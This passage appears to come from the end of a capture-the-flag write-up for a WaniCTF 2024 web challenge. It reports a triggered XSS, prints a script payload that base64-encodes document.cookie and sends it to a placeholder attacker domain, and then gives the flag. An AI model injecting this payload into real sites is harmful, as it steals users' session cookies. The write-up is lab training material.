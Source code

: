 ![image](/assets/img/wanictf24/alert_payload.png)

![image](/assets/img/wanictf24/xss.png)

The XSS finally triggers ! All is left is to exfiltrate the cookie. We can use the payload bellow :

```html
<script>location="https://<domain>.com/leak?flag=".concat(btoa(document.cookie))</script>
```

**FLAG{n0scr1p4_c4n_be_d4nger0us}**

_Solved by Raza_